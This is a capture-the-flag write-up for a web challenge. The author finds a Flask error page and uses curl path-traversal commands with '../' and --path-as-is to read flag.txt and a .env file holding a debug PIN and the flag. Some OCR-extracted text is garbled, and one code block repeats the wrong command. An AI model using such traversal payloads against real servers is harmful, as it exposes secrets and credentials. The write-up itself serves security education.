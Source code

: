 # Trailblazer
> Immerse yourself in a web application born from the brilliance of AI. This digital realm is a playground of challenges, meticulously woven by machine intelligence. Your mission: outsmart the very AI that birthed this intricate virtual environment.

## About the Challenge
We were given a static website, and we need to find the flag on this website.


[Image extracted text: Hook
Home
Features
Pricing
Register
Join Meet Up
We are
coming to Singapore
Leamn more_.
Serve Your
Website Fast
Email Address
Get Started
No credit card required
Blog]


## How to Solve?
First, i tried to check some useful endpoints such as `/robots.txt`, `sitemap.xml`, `.git`, etc.


[Image extracted text: ( >
trailblazerwinja org/robots.txt
Not Found
The requested URL
was not found on the server:
If you entered the URL manually please check your spelling and try again.]


But I didn't get anything, so I tried to check the source code and I found an obfuscated javascript here


[Image extracted text: ( >
C
trailblazerwinja org/assets/js/scriptjs
function
0x29b8
0x2f4464,
0x208257) {const
Oxcd26d2=
Oxcd26();return
0x29b8-function(
0x29b8fb,_0x349f4e)-
0x29b8fb=
Ox29b8fb-Ox71;let
Ox517fe8=
Oxcd26d2[_
Ox517fee;},_
0x29b8
0x2F4464,_
0x208257) ; }function
Oxcd26( ) {const
0x3175c3=
['Ix33lxZalxbalxZalx73|x74lx6c
Ix321*381*361*361x361*331*391x35lx52lx50x4c |x481x651*62
Ix6e |x611x76
Ix3c |x641x69x76lx20lx63x6c Ix61lx731x73*3dlx22lx62
x7Slxbelx64lxzolx7zlx2dlx3ilxzolxe8lx2dlx3ilx2
Ix6flx7o
xbllx63lx69lx74lx79lx2dlx35lx3olxzolxedlx74lx2dlx35ix22lx2e
x69ix64lx3d
1x331x371x311x481x791x69ix4blx4
xZelxbelx651x781x74
Ix31lx331x331x331*361*381x31x48lx79lx6c Ix65lx52lx4a
Ix341x381x341*361x351*391*351*68lx711x441*4b1x51lx62
Ix641x611x74lx61lx2dlx74lx61
x53lx43lx58lxsolx7alx4e
Ix331x311x361*381*35
x32lxzolx5olx66lx4dlx55ix41lx59
Ix63lxbclx6flx731x65ix731x74
IxSblx64lx61lx74lx61lx2dlx74lx6flx67lx67lx6c Ix65
IxSd "
1x611x741x741x72'
Ix23|x73lx6c | x691*641x651x72lx2dlx31
1x361x301x361x371*381*371x321x67lx6d1x621*67|x4blx51
Ixzzlx6llx72lxbe 
1x341x321*301*361x36
43lx6clx61lx73ix73
Ix3elxzolx3c lx2flx64lx69ix76lx3e
Ix681x69
x641x64
x65ix6e' ];_
Oxcd26-function( ) {return
0x317503;};return
Oxcd26
} (function
0x19fc13_
{_Ox2Zbc7o:0x86 _
0x33c775: Ox7a,
Oxlc36b0:0x83 ,
Ox4Lef9f:Ox7e,
Ox15Sf7c:0x85} , _
Oxlbf3e6=
0x29b8 ,
Oxl8dbc9=
0x19fc13
;while( ! ![]){try{const
Ox23a211=-parseInt(
parseInt
Oxlbf3e6
Oxb3cce4 .
Ox2Zbc70
[Ox2+parseInt
Oxlbf3e6
Oxb3cce4
0x33c775 )
/0x3* (parseInt
Oxlbf3e6
0x74 ) )
0x4)+parseInt
Oxlbf3e6
Oxb3cce4
Ox1c36b0
parseInt
Oxlbf3e6
Oxb3cc04 _
Ox44efgf-
{Ox
parseInt
Oxlbf3e6
Oxb3cc04
Oxl5Sf7c)
[Ox8+parseInt
Oxlbf3e6
Ox7b
/0x9
if(
0x23a211===
OxZ1AdSa)break;else
());}catch
0x31962e) {
Oxl8dbc9[
push
Ox18dbc9[
shift']());}}}
Oxcd26_
Oxc 7e3b)
document) [
Ix721x651x611x641x79'](function()
const
Ox3faefaz{
0x351130
0x73
Ox3f9b6a:0x78} _
Ox2e4741={_
Ox4e68fa
Ox87
Ox37ac55:0x72,_
0x416808
0x77
0x3f2470:0x79} ,
0x40d93e=
0x29b8
0x48d93e(0x71) ) [
Ix6flxbe
J( 'Ix63 x6c|x69|x63|x6b
Ox4ae731(_
Ox2e4741-
0x4e68fa) ] (_Ox4ae731
OxZc) ) [_Ox4ae731(0x80) ] ($(this) [_Ox4ae731(
Ox2e4741
~Ox37ac55) ]`
Ox4ae731
0x84) ) ) [_ 0x4ae731
Ox2e4741 -
0x416808) ] (_
[J;}) ,feather[
Ix721x65|x70|x6c |x611x631x65 '] () ;function
0x48fb9a( ) {const
0x2294al-_0x40d93e;let
Ox2e7895=
873-0560-128' ;console
0x2294a1(0x75) ]
Ox2e7895+
Ix2olx3c Ix2olx52lx65lx6dlx6flx761x65lx201x741*681x691x731x201*611x661x741x651x721x201x641x651x621x751x67lx67lx69lx6elx67
fvar
Oxd9260a=new
SmoothScroll(
Ix6lxSblx681x721x65lx66lx2alx3dlx22lx23lx22lxSd
);S
0x40d93e
Ox3faefa
0x351130) ) [_ 8x40d93e(OxZf) ] ( {
1x69lx6elx661x69lx6elx691x741x65
Ixzolx72lx65ix76lx41lx72lx72lx6flx77
:$(
IxZe |x701x721x651x76 ' ) ,
Ixbelx651x781x741*41lx72lx72lx6flx77
0x40d93e
Ox3faefa
Ox305fa7))}) ,$ (
Ix23lx73lx6clx6
1x641x6f1x741x73
W[l,
Ix61lx72lx72lx6f
x77ix73
![1,
Ix69lx6elx661x69lx6elx691x741*65
Ix73lxbclx69ix64lx65lx73lx54lx6flx53lxb8lx6flx77
Ox3 _
Ix73lx6c lx69lx64lx65lx73lx54lx6flx53lx63lx72lx6flx6clxbc
Oxl,
(x61lx75lx74lx6flxzolxbclx61lx79
Ix61lx75lx74lx6flxzlxbclx61lx791x53lx701x651x651x64
:Ox7d0
Ix63lx65lx6e lx74lx651x72lx4dlx6flx641*65
:W[J,'1x631x75 x73|x74 x6flx6d |x50|x61 1x671x69|x6elx6
0x415778=_0x40d93e;return
0x415778 ( Ox7d ) +_
0x1622d1+_
0x415778
Oxcdcc24
Ox3f9b6a) ;} ,
Ix72lx65lx73lx7olx6flx6elx73lx69lx76ix65
[{'
Ix62lx72l*65lx61lx6blxzolx6flx69lxbelx74
0x300
'1x731x651x741x741x69|x6e |x671*73
Ix73Ix6c |x691*641x65lx73lx54lx6flx53lx68lx6f1x77
Oxl} }1});}));]


When I attempted to deobfuscate the JavaScript code, I realized that it was useless, and we couldn't find any additional information from it. So, I tried to locate another JavaScript file by changing the filename to main.js, and something weird happened


[Image extracted text: ( >
C
trailblazerwinja org/assets/js/mainjs
FileNotFoundError
FileNotFoundError:
[Errno 2]
No
such file
or
directory:
/opt/flask_debugger/assets/js/main.js
Traceback (most recent call last)
File "{usrlliblpython3.11/site-packageslflasklapp py"
line 2213,in
call
return self.Wsgi_app(environ,
start_response)
C
File "{usriliblpython3 11/site-packages/flasklapp py" , line 2193,in Wsgi_app]


`FileNotFoundError`? I immediately got the idea to do a path traversal using this payload

```sh
curl "https://trailblazer.winja.org/assets/js/../../flag.txt" --path-as-is
```


[Image extracted text: daffainfo@ddapos:
$
curl
"https:  /trailblazer.Winja.org/assets/js]. ./
Iflag.txt"
path-as-is
is
not
here
Check
the Flask' s App
secret
daffainfo@dapos
$
Flag
key]


Hmm, let's check another important files such as the source code, `.env` file, etc. And we got the flag by reading `.env` file

```
curl "https://trailblazer.winja.org/assets/js/../../flag.txt" --path-as-is
```


[Image extracted text: daffainfoddapos:
$
curl "https:
Itrailblazer.Winja.org
assets/js/_
1
1
env"
-path-as-is
PORT=8000
WERKZEUG_DEBUG_PIN-901-1647-440
APP_SECRET-flag{ab22o1ze6c8eebocl56ofc9bec493220_plN_ArE_no7_SAfe_@LwaYs}
daffainfoddapos
$]


```
flag{ab22012e6c8eeb6c1560fc9bec493220_p1N_ArE_no7_$Afe_@lwaYS}
```